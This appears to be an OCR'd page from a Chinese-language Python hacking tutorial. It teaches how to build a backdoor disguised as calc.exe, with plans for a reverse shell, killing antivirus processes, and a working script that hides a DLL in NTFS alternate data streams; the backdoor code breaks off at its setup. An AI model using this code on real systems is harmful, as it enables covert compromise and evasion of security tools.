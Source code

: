 ## 7.2 邪恶的代码

现在让我们本着学以致用的目的，用注入搞点好玩的东西。我们将创造一个后门程序， 将它命名为一个系统中正规的程序（比如 calc.exe）。只要用户执行了 calc.exe，我们的后门

就能获得系统的控制权。cacl.exe 执行后，就会在执行后门代码的同时，执行原先的 calc.exe （之前我们的后门命名成 calc.exe，将原来的 cacl.exe 移到别的地方）。当 cacl.exe 执行后， 通过注入，反弹一个 shell 到我们的机器上，最后我们再注入 kill 代码，杀死前面运行的程 序。

等一等！我们难道不能直接结束 calc.exe 吗？简单地说，可以。但是终止进程对于后门 来说是一项很关键的技术。比如，你能通过枚举进程，找出杀毒软件和防火墙的的进程，然 后简单的杀死。或者你也能，通过上一章学到的注入技术，在离开前杀死进程。技术不止一 种，选择合适的是最重要的。

最后我们还会介绍如何将 Python 脚本编译成一个单独的 Windows 可执行文件，以及如 何偷偷的加载 DLL。接下来先看看如何将 DLL 隐藏起来。

### 7.2.1 文件隐藏

我们的后门会做成 DLL 的形式，为了能够它安全点，得用一些秘密的方法将它藏起来。 我们能够用捆绑器，将两个文件（其中包括我们的 DLL）捆绑起来，不过 WE ARE Python Hacer,当然得有点不一样了。

OS 就是我们最好的老师，NTFS 同样提供了很多强大而隐秘的技巧，今天我们就用 alternate data streams (ADS)。从 Windows NT 3.1 开始就有了这项技术，目的是为了和苹果 的系统 Apple heirarchical file system (HFS)进行通讯。ADS 允许硬盘上的一个文件，能够 将 DLL 储存在它的流中，然后附加到主进程执行。流就是隐藏的文件，但是能够被附加到任 何在硬盘上能看得到的文件。

使用流隐藏的文件，不用特殊的工具是看不见的。目前很多安全工具也还不能很好的扫 描 ADS，所以用此逃避追捕是非常理想的。

在一个文件上使用 ADS，很简单，只要在文件名后附加双引号，接着跟上我们想隐藏 的文件。

```
reverser.exe:vncdll.dll 
```

在 这 个 例 子 中 我 们 将 vncdll. dll 附 加 到 reverser.exe 中 。 下 面 写 个 简 单 的 脚 本 file_hider.py，就当的读取文件然后写入指定文件的 ADS。

```
#file_hider.py import sys
# Read in the DLL
fd = open( sys.argv[1], "rb" ) 
dll_contents = fd.read() 
fd.close()
print "[*] Filesize: %d" % len( dll_contents )
# Now write it out to the ADS
fd = open( "%s:%s" % ( sys.argv[2], sys.argv[1] ), "wb" ) 
fd.write( dll_contents )
fd.close() 
```

很简单，第一个传入的参数就是我们想隐藏的 DLL，第二参数就是目标文件。用这个 工具我们就能够很方便的，通过写入流的方式，将我们的文件和目标文件结合在一起。

### 7.2.2 编写后门

让我们构建我们的重定向代码，只要简单的启动指定名字的程序就行了。之所以叫执行 重定向，是因为我们将后门的名字命名为 calc.exe 了还将原来的 calc.exe 移动到了别的地方。 当用户测试执行计算器的时候，就会不经意的执行了我们的后门，后门程序通过重定向代码， 启动真正的计算器。用户会看不到任何邪恶的东西，依旧正常的使用计算器。下面的脚本引 用了第三章的 my_debugger_defines.py，其中包含了创建进程所需要的结构和常量。

```
#backdoor.py
# This library is from Chapter 3 and contains all
# the necessary defines for process creation 
import sys
from ctypes import *
from my_debugger_defines import *
kernel32 = windll.kernel32 
PAGE_EXECUTE_READWRITE = 0x00000040 
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
# This is the original executable
path_to_exe = "C:\\calc.exe"
startupinfo = STARTUPINFO() 
process_information = PROCESS_INFORMATION() 
creation_flags = CREATE_NEW_CONSOLE 
```